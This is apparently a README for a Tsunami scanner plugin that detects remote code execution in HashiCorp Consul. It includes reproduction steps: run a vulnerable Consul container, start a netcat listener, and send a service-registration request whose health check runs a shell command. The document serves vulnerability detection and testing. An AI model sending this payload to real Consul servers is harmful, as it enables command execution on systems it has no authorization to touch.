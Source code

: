 # Consul RCE Validator

* https://www.exploit-db.com/exploits/46074
* https://www.hashicorp.com/blog/protecting-consul-from-rce-risk-in-specific-configurations

## RCE Reproduction steps

```
docker run --name consul --net host  consul:1.2.3 consul agent -dev -enable-script-checks --bind=127.0.0.1
```

In one terminal:
```
netcat -l 5555
```

In another:
```
curl -H 'Content-Type: application/json' -X PUT \
    -d '{
        "ID": "test",
        "Name": "test",
        "Address": "127.0.0.1",
        "Port": 80,
        "check": {
            "script": "curl localhost:5555/test",
            "Args": ["sh", "-c", "curl localhost:5555/test"],
            "interval": "10s",
            "Timeout": "86400s"
        }
    }' localhost:8500/v1/agent/service/register
```

Make sure to teardown: `docker rm -f consul`

## Build jar file for this plugin

Using `gradlew`:

```shell
./gradlew jar
```

Tsunami identifiable jar file is located at `build/libs` directory.
